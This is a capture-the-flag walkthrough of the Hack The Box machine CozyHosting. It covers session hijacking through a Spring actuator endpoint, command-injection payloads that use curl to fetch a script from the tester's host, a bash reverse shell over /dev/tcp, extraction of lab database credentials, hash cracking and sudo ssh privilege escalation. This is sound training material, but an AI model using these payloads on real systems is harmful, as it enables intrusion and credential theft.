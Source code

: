 # [CozyHosting](https://app.hackthebox.com/machines/cozyhosting)


```bash
nmap -p- --min-rate 10000 10.10.11.230 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80 10.10.11.230 -Pn 
```

![alt text](img/image-1.png)


From nmap scan result, `cozyhosting.htb` domain name is resolved to this ip address, that's why I add this record into `/etc/hosts` file.

While browsing web application, it returns such an web page.

![alt text](img/image-2.png)


From `tech stack`, I see that `Spring` application is, that's why I use specific wordlist while fuzzing for `directories`.

Let's do `Directory Enumeration` via `feroxbuster` command.
```bash
feroxbuster -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt 
```

![alt text](img/image-3.png)


There's endpoint `/actuator/sessions` which shows current sessions and are so sensitive.

```bash
curl -s http://cozyhosting.htb/actuator/sessions | jq .
```

![alt text](img/image-4.png)


Let's use this session on web application via `JSESSIONID` key and refresht the webpage.

![alt text](img/image-5.png)


I am already on `Admin` dashboard.

I find this below feature where I can submit `IP Address` as hostname and username.

![alt text](img/image-6.png)


Let's see full HTTP request headers and body for this feauture.

![alt text](img/image-7.png)


Let's check `Command Injection` payloads for `username` parameter.

```bash
host=10.10.14.18&username=dr4ks;{ping,-c,1,10.10.14.18};
```

![alt text](img/image-8.png)


I can see this from `tcpdump` that `Command Injection` worked.

![alt text](img/image-9.png)


Now, I will do `Blind Command Injection`.


So, first I will create `.sh` file which contains `reverse shell` payload.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```

![alt text](img/image-10.png)

Now, I will open http.server as below.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-12.png)

Third, I make a `Command Injection` payload which makes `curl` to my http.server to download `.sh` file.
```bash
host=localhost&username=dr4ks%3bcurl${IFS}http://10.10.14.18:8080/dr4ks.sh${IFS}-o${IFS}/tmp/dr4ks.sh
```

![alt text](img/image-11.png)



Now, it's time to run this malicious script as below.
```bash
host=localhost&username=dr4ks%3bbash${IFS}/tmp/dr4ks.sh
```

![alt text](img/image-13.png)


Hola!, I got reverse shell from port `1337`.

![alt text](img/image-14.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-15.png)


I look at machine to find interesting stuff. I find `cloudhosting-0.0.1.jar` file on `/app` directory.


Let's download this and try to find sensitive info.

For this, I will open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.11.230 8080
```

![alt text](img/image-16.png)


I get this file from http.server via `wget` command.
```bash
wget http://10.10.11.230:8080/cloudhosting-0.0.1.jar
```

![alt text](img/image-17.png)


I look at this file via `jd-gui` which is `Java Decompiler`.

![alt text](img/image-18.png)


I find `PostgreSQL` credentials from `application.properties` file.

postgres: Vg&nvzAQ7XxR


Let's connect into `Postgre` Server.
```bash
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
```

![alt text](img/image-19.png)


I find credentials from `users` table.

![alt text](img/image-20.png)


admin: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm


Let's crack this hash via `hashcat`.

```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-21.png)


admin: manchesterunited


I check this password for `josh` user.

user.txt

![alt text](img/image-22.png)


For `Privilege Escalation`, I just run `sudo -l` command to see privileges of this user.

![alt text](img/image-23.png)


I see `ssh` binary, I find `privesc payload` on [Gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo).


root.txt

![alt text](img/image-24.png)